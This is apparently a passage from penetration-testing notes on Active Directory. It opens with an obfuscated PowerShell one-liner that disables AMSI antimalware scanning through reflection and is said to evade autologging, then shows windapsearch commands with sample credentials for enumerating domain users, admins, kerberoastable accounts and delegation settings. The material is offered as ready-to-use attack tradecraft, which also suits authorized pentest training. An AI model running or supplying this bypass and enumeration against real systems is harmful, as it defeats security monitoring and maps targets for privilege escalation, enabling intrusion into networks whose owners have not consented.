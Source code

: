 Another bypass, which is not detected by PowerShell autologging:

```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}

#### <mark style="color:green;">For more info about AMSI refer to the</mark> <mark style="color:green;"></mark>_<mark style="color:green;"></mark>_ [_<mark style="color:green;">**AMSI bypass**</mark>_](broken-reference) <mark style="color:green;">in AV Evasion.</mark>

## <mark style="color:red;">Loading Enumeration Tools</mark>

### [winapsearch](https://github.com/ropnop/windapsearch)

```shell
git clone https://github.com/ropnop/windapsearch.git

apt install python3-ldap

# enute the AD with credentials via WPAD
python3 windapsearch.py -d megabank.local -u megabank\\Administrator -p "letmein.123" --dc-ip 192.168.56.103 -U -o output

# other options:

 --functionality       Enumerate Domain Functionality level. Possible through anonymous bind
  -G, --groups          Enumerate all AD Groups
  -U, --users           Enumerate all AD Users
  -PU, --privileged-users
                        Enumerate All privileged AD Users. Performs recursive lookups for nested members.
  -C, --computers       Enumerate all AD Computers
  -m GROUP_NAME, --members GROUP_NAME
                        Enumerate all members of a group
  --da                  Shortcut for enumerate all members of group 'Domain Admins'. Performs recursive
                        lookups for nested members.
  --admin-objects       Enumerate all objects with protected ACLs (i.e. admins)
  --user-spns           Enumerate all users objects with Service Principal Names (for kerberoasting)
  --unconstrained-users
                        Enumerate all user objects with unconstrained delegation
  --unconstrained-computers
                        Enumerate all computer objects with unconstrained delegation
  --gpos                Enumerate Group Policy Objects
  -s SEARCH_TERM, --search SEARCH_TERM
                        Fuzzy search for all matching LDAP entries
  -l DN, --lookup DN    Search through LDAP and lookup entry. Works with fuzzy search. Defaults to printing
                        all attributes, but honors '--attrs'
  --custom CUSTOM_FILTER
                        Perform a search with a custom object filter. Must be valid LDAP filter syntax
```
